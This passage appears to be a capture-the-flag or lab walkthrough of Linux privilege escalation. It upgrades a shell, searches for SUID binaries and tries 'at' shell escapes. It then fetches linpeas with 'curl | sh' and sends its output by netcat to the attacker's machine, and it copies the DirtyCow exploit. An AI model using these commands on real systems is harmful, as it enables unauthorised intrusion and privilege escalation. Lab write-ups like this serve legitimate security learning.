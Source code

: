 Let's check if python3 is installed on the machine:

```
python3 -V
```

It appears to be here. Now let's upgrade our shell:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Let's see if there are any SUID binaries for us to exploit:

```
find / -perm /4000 2>/dev/null
```

There is `at`, `pkexec` and `mount`. Let's try each:

```
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```

Apparently this user can't use `at` for some reason.

```
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | sudo at now; tail -f /dev/null
```

And doesn't have sudo permissions, which means `mount` won't work and neither will pkexec.

Now let's use `linpeas` script to find out if this machine has any vulnerabilities to escalate privileges. First let's type the following on the host computer:

```
nc -lvnp 9002 | tee linpeas.out
```

Next, let's type the following in the shell we just upgraded:

```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh | nc <HOST COMPUTER IP> 9002
```

This will give us `linpeas.out` file full of analysis of the remote machine we just gained a foothold to. I usually like to go through CVEs first:

```
cat linpeas.out | grep CVE
```

There is a `CVE-2016-5195` exploit under the name of `dirtycow`. I've heard of it before, I want to try it first.

```
searchsploit --cve 2016-5195
```

```
cp /usr/share/exploitdb/exploits/linux/local/40839.c dirty.c
```
